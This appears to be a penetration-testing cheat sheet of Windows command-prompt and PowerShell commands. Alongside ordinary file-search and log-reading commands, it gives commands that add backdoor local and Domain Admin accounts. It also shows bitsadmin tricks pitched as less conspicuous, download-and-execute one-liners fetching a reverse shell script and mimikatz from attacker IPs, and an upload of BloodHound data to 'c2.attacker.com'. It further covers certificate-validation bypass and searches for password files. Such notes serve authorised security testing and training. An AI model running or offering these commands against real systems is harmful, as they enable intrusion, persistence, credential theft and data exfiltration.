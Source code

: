 # Useful commands in Windows

## Windows - Command Prompt

### Find a file
```batch
dir "\secretfile" /s
```

### Find strings in files
```batch
findstr /s /i "FLAG{" C:\*.*
```

### Find multiple words, strings and patterns
* (Equivalent of `#!bash grep -e WORD1 -e WORD2 -e WORD3`)
```batch
findstr /C:WORD1 /C:WORD2 /C:WORD3 FILENAME.TXT
```

### Enable default local "administrator" account
```batch
net user administrator /active:yes
```

### Adding local accounts (Must have system privileges)
```batch
net user trojand imashortpassword /add
net localgroup administrators trojand /add
```

### Adding a Domain Admin account
```batch
net group "Domain Admins"
net user trojandDA P@ssw0rd /add /domain
net group "Domain Admins" trojandDA /add /domain
net group "Domain Admins"
```

### List files using `#!bash tree`
```batch
tree /f
tree /f /a > tree.txt
```

### Change user password
```batch
net user trojand imareallyreallyreallylongpasswordnow
```

### Windows Built-in Plink for relay
```batch
netsh interface portproxy add v4tov4 listenport=<LPORT> listenaddress=0.0.0.0 connectport=<RPORT> connectaddress=<RHOST>
```

### Show wireless interfaces
```batch
netsh wlan show networks mode=bssid
```

### Check for logged on users
```batch
query user
qwinsta
```

### List local drives[^1]
```batch
wmic logicaldisk get description,name | findstr /C:"Local"
fsutil fsinfo drives
```

### bitsadmin[^4]
#### Copying a File
* Better than copy. Less conspicuous by having the service do it for you.
```batch
bitsadmin /create JOB & bitsadmin /addfile JOB <LOCAL_SRC> <LOCAL_DST> & bitsadmin /resume JOB & bitsadmin /complete JOB
bitsadmin /create JOB & bitsadmin /addfile JOB %SystemRoot%\System32\cmd.exe C:\Users\Administrator\cmd.exe & bitsadmin /resume JOB & bitsadmin /complete JOB
```
#### Execute a file
* Good for executing files as this will run under `svchost -k netsvcs` as a child process and not under you command prompt
```batch
bitsadmin /create JOB & bitsadmin /addfile JOB <LOCAL_SRC> <LOCAL_DST> & bitsadmin /SetNotifyCmdLine JOB <PROGRAM_NAME> <PARAMETERS> & bitsadmin /resume JOB & bitsadmin /reset
bitsadmin /create JOB & bitsadmin /addfile JOB %TEMP%\test1.txt %TEMP%\test2.txt & bitsadmin /SetNotifyCmdLine JOB C:\Windows\System32\calc.exe NULL & bitsadmin /resume JOB & bitsadmin /reset
```



---
## Windows - Powershell 

### Nested quotes or wrapping multiple double quotes
* Triple double quotes to make one double quote.
* In the example below, the whole RCE command is taken as a variable. Think of the single quotes also as the command portion in your RCE expoits.
    ```powershell
    var g = 'powershell -Exec Bypass -c "IEX(New-Object System.Net.WebClient).DownloadString("""http://10.0.1.5:1337/reverse.ps1""")"'
    ```
* For executing in powershell directly (i.e. interactive powershell), you must use a Grave Accent symbol before the three(3) double quotes.
    ```powershell
    powershell -Exec Bypass -c "IEX(New-Object System.Net.WebClient).DownloadString(`"""http://10.0.1.5:1337/reverse.ps1`""")"
    ```
* BEWARE: This does not seem to work if you are to encode the whole command (IEX...). Better to encode payload/command from Windows to see if it gives an error


### Download & Uploading files
* Ignore bad/untrusted/self-signed certificates
    ```powershell
    [System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
    ```
* Download only [^1]
    ```powershell
    Invoke-WebRequest "http://<KALI_IP>:8000/mimikatz.zip" -Out mimikatz.zip
    
    (New-Object System.Net.WebClient).DownloadFile("https://example.com/archive.zip", "C:\Windows\Temp\archive.zip")  
    
    $client = new-object System.Net.WebClient
    $client.DownloadFile("http://<KALI_IP>:8000/mimikatz.zip","mimikatz.zip")
    ```
* Download and execute
    ```powershell
    IEX(New-Object System.Net.WebClient).DownloadString("https://10.0.1.5:1337/reverse.ps1")
    powershell -Exec Bypass -c "IEX(New-Object System.Net.WebClient).DownloadString(`"""http://10.0.1.5:1337/reverse.ps1`""")"
    ```
* Uploading files
    * Setup a [Simple HTTP Server](../Infrastructure_Setup/Simple_Python_Go_Packages.html#projectdiscovery-simplehttpserver) for this command.
    ```
    $uri = "https://c2.attacker.com/bh.zip"
    $uploadPath = "C:\Windows\temp\20210101000109_BloodHound.zip"
    Invoke-RestMethod -Uri $uri -Method Put -InFile $uploadPath -UseDefaultCredentials
    ```

### cat, tail, grep in Windows PS
* Reading Files
    ```powershell
    Get-Content output.log
    ```
* Tail
    ```powershell
    Get-Content output.log -Tail <number of lines>
    Get-Content output.log -Tail 10
    ```
* Tail -f
    ```powershell
    Get-Content output.log -Tail 10 -Wait
    ```
* Grep
    ```powershell
    Get-Content output.log | Select-String -Pattern "<pattern>"
    Get-Content output.log | Select-String -Pattern "password"
    ```
* Grep -A 3
    ```powershell
    Get-Content output.log | Select-String -Pattern "password" -Context 0,3
    ```
* Tail -f | Grep -A 3
    ```powershell
    Get-Content output.log -Tail 10 -Wait | Select-String -Pattern "password" -Context 0,3
    ```

### Find files and contents
* Find files with using filenames
    ```powershell
    Get-ChildItem "C:\" -recurse -filter "*password*"
    ```
* Find contents in files
    ```powershell
    Get-ChildItem "C:\Users" -recurse | Select-String -pattern "passw" | group path | select name
    ```

### Expand Archives
```powershell
Expand-Archive Procdump.zip -DestinationPath "C:\temp\" -Force -Verbose
```

### Base64 Encode Powershell commands
* Some use cases:
    * Encoding[^2] [Powershell one-liners](../Windows/Shells.html#one-liners)
```powershell
$MYCOMAND = "Invoke-WebRequest -Uri 'http://www.contoso.com' -OutFile 'C:\path\file'"
$ENCODED = [Convert]::ToBase64String([Text.Encoding]::Unicode.GetBytes($MYCOMMAND))
Write-Output $ENCODED
```


[^1]: [Windows Commandline - List local drives from command line](https://www.windows-commandline.com/list-local-drives-command-line/)
[^2]: [Abatchy](https://www.abatchy.com/2017/03/powershell-download-file-one-liners)
[^3]: [Tech Expert](https://techexpert.tips/powershell/powershell-base64-encoding/)
[^4]: [TrustedSec - BITS for Script Kiddies](https://www.trustedsec.com/blog/bits-for-script-kiddies/)
